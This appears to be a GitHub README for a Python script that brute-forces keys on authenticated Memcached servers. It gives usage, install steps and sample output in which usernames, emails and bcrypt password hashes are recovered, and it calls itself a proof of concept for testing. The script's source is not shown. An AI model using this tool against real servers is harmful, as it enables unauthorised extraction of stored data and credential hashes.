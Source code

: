 # Authenticated Memcached Keys Brute-force Script

Script is used to Bruteforce Keys Memcached service supporting Binary Protocol 

Expected outcome: Discover Keys and there Values stored inside Memcached service

Intended only for educational and testing in corporate environments.

This Script was tested on Python 3.8.6

### Usage

```shell
cfx:  ~/Memcached_bruteforce 
→ ./keys_brute.py -h
usage: keys_brute.py [-h] [-l HOST] [-u USERNAME] [-p PASSWORD] [-w WORDLIST]

Authenticated Memcached Key Bruteforce Script by ColdFusionX

optional arguments:
  -h, --help            show this help message and exit
  -l HOST, --host HOST  Connection to Host -> IP:PORT (Example: 127.0.0.1:11211)
  -u USERNAME, --username USERNAME
                        Username
  -p PASSWORD, --password PASSWORD
                        Password
  -w WORDLIST, --wordlist WORDLIST
                        Bruteforce Dictionary

Script Usage : 
./keys_brute.py -l 127.0.0.1:11211 -u username -p password -w wordlist.txt

```
- Make sure Python3 is installed with following additional modules:

### Additional required Python modules :
- bmemcached
- pwn

Installation:
```shell
pip3 install pwn
pip3 install python-binary-memcached
```
### Proof of Concept :

This exploit expects four user inputs :
- **Host** - Connection to Host -> IP:PORT (Example: 127.0.0.1:11211)
- **Username** - Memcached Username
- **Password** - Memcached Password
- **Wordlist** - Dictionary for Bruteforce

#### Expected Output :

```shell
cfx:  ~/Memcached_bruteforce
→ ./keys_brute.py -l 127.0.0.1:11211 -u cold -p password -w dictionary.txt

[*] Initiating Keys Bruteforce

[*] Key -> username
[+] Magnus
    Shockwave
    Optimus

[*] Key -> email
[+] Magnus@autobots.cy
    Shockwave@decepticons.cy
    Optimus@prime.cy

[*] Key -> password
[+] $2y$12$Vz8Z4adaLo3uKGaLpHa0IeuER15KtM0hAZuNy06OzCfThUD0gaFES
    $2y$12$2nmCPrn67.GdgjjBgE1q1.Y6B2sXICIHy3wTpib3O9OIQyfr/j/LO
    $2y$12$Gmiv7J69Xkh4ObQKhCbQ9uV6IWEvsAoMRp.kLzkrV8NO.WLT.ooUq 

```

### Reference

https://pypi.org/project/python-binary-memcached/

https://github.com/memcached/memcached/wiki/BinaryProtocolRevamped





